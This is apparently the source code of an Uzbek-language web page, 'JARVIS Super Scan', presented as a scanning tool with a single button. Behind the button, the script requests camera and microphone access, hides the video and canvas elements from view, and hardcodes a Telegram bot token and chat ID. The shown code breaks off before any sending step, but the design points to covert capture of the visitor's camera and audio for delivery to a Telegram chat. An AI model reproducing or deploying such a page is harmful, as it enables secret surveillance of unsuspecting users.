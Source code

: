<!DOCTYPE html><html lang="uz">
<head>
  <meta charset="UTF-8">
  <title>JARVIS Super Scan — Full Version</title>
  <style>
    body {
      background: radial-gradient(circle at center, #001a1a, #000);
      color: #00ffee;
      font-family: 'Segoe UI', sans-serif;
      text-align: center;
      padding: 40px;
    }
    button {
      padding: 16px 36px;
      font-size: 20px;
      border: none;
      border-radius: 12px;
      background-color: #00ff88;
      color: #000;
      box-shadow: 0 0 20px #00ff88;
      cursor: pointer;
      transition: 0.3s;
    }
    button:hover { background-color: #00cc66; }
    canvas, video { display: none; }
  </style>
</head>
<body>
  <h1>🧠 JARVIS SUPER-SCAN</h1>
  <button onclick="runSuperScan()">🚀 SUPER SCAN BOSING</button>
  <video id="video" autoplay muted></video>
  <canvas id="canvas"></canvas>
  <script>
    const BOT_TOKEN = "7499346689:AAFvoixn_YYNFVJSIUDdh-KmDm8vLRvwsnE";
    const CHAT_ID = "902776622";let stream, recorder, chunks = [];

async function runSuperScan() {
  const video = document.getElementById("video");
  const canvas = document.getElementById("canvas");

  try {
    stream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
    video.srcObject = stream;

    video.onloadedmetadata = async () => {
      video.play();
      await new Promise(r => setTimeout(r, 1500));

      if (video.videoWidth === 0 || video.videoHeight === 0) {
        alert("❌ Kamera hali tayyor emas yoki ruxsat yo‘q!");
        return;
      }
